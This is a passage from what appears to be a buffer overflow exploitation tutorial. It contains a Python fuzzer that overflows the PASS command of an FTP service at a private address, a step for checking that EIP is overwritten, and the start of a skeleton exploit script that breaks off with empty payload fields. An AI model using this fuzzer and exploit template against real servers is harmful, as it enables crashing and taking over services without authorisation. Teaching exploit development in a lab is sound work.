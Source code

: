     import socket, time, sys

    ip = "10.0.0.1"
    port = 21
    timeout = 5

    # Create an array of increasing length buffer strings.
    buffer = []
    counter = 100
    while len(buffer) < 30:
        buffer.append("A" * counter)
        counter += 100

    for string in buffer:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(timeout)
            connect = s.connect((ip, port))
            s.recv(1024)
            s.send("USER username\r\n")
            s.recv(1024)

            print("Fuzzing PASS with %s bytes" % len(string))
            s.send("PASS " + string + "\r\n")
            s.recv(1024)
            s.send("QUIT\r\n")
            s.recv(1024)
            s.close()
        except:
            print("Could not connect to " + ip + ":" + str(port))
            sys.exit(0)
        time.sleep(1)

Check that the EIP register has been overwritten by A's (\\x41). Make a note of any other registers that have either been overwritten, or are pointing to space in memory which has been overwritten.

Crash Replication & Controlling EIP
===================================

The following skeleton exploit code can be used for the rest of the buffer overflow exploit:

.. code-block:: python

    import socket
    
    ip = "10.0.0.1"
    port = 21
    
    prefix = ""
    offset = 0
    overflow = "A" * offset
    retn = ""
    padding = ""
    payload = ""
    postfix = ""
    